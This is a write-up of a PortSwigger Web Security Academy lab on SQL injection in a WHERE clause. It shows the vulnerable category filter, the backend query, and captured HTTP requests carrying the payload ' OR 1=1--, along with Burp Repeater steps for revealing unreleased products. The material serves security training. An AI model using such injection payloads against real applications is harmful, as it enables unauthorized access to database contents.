



#  Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Topic:** SQL Injection (SQLi)  
**Difficulty:** Apprentice  
**Link:** [https://portswigger.net](https://portswigger.net)

##  Objective
Exploit an input vulnerability inside the application's product category filter to manipulate the backend database query, forcing it to reveal unreleased hidden products.

##  Enumeration & Analysis
* **Vulnerable Input Vector:** Selecting a specific category filter updates the web view via a `GET` parameter query: `/filter?category=Food+%26+Drink`.
* **Backend Database Logic:** The application takes this client input and blindly concatenates it into a dynamic SQL query to check product status flags:
  ```sql
  SELECT * FROM products WHERE category = 'Gifts' AND released = 1
  ```
* **Vulnerability Mechanism:** Because there is no input sanitization, an attacker can input an apostrophe `'` to escape the string context, inject a boolean true condition (`OR 1=1`), and use database comment characters (`--`) to neutralize the remainder of the query condition (`AND released = 1`).

---

##  Traffic Capture Logs

###  Baseline Filter Request
The original, unmanipulated traffic string captured in your Proxy history when searching for standard catalog products:
```http
GET /filter?category=Food+%26+Drink HTTP/2
Host: 0acf0059032240e780d2d30800d500bc.web-security-academy.net
Cookie: session=A4fc7mkyYmCwTrbwbj9gVzQjpjHPm1w1
```

###  Weaponized Payload Injection Request
Appending a trailing quote along with a permanent true operator logic string directly into the query variable within **Burp Repeater**:
```http
GET /filter?category=Food+%26+Drink'+OR+1%3d1-- HTTP/2
Host: 0acf0059032240e780d2d30800d500bc.web-security-academy.net
Cookie: session=A4fc7mkyYmCwTrbwbj9gVzQjpjHPm1w1
```

###  Resultant Database Compilation Output
The modified logic updates the backend database validation execution path, forcing a dump of the entire structural library:
```sql
SELECT * FROM products WHERE category = 'Food & Drink' OR 1=1--' AND released = 1
```

---

##  Exploitation Step-by-Step
1. Browse to the lab home screen, select the **Food & Drink** category filter, and review the standard catalog page view.
2. Open your **Burp Proxy HTTP history**, locate the `GET /filter?category=Food+%26+Drink` request, right-click, and choose **Send to Repeater**.
3. In the left panel of **Repeater**, modify the trailing query parameter value to break the single-quote execution bounds:
   `category=Food+%26+Drink'+OR+1=1--`
4. Click **Send**. The response code updates to a `200 OK` structure containing a significantly larger content size payload stream, revealing hidden items.
5. Check your main browser workspace to confirm the application validates the challenge environment as solved.

---

##  Proof of Concept (PoC)

### 6. Intercepting Active Product Category Filter Trapping


### 7. Successfully Executing Dynamic Payload Bypasses


### 8. Challenge Clearance Execution Feedback Verification

